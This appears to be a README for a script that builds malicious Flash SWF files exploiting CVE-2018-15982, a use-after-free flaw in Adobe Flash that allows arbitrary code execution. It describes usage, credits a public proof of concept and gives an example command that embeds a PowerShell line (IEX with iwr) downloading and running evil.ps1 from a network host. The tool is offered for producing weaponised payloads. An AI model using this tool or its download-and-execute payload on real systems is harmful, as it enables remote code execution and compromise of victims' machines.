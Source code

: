 # Adobe Flash CVE-2018-15982

Script to dynamically create swf payload.  

The script creates a swf payload which is based off of the PoC payload from https://github.com/smgorelik/Windows-RCE-exploits.

The vulnerability  is a use-after-free flaw enabling arbitrary code-execution in Flash.  More information can be found here.
https://threatpost.com/adobe-patches-zero-day-vulnerability-in-flash-player/139629/


Usage:

```python create_swf.py <command> <output file name>```
  
Example:

```python create_swf.py "powershell.exe IEX (iwr 'http://192.168.0.32/evil.ps1')" test.swf```
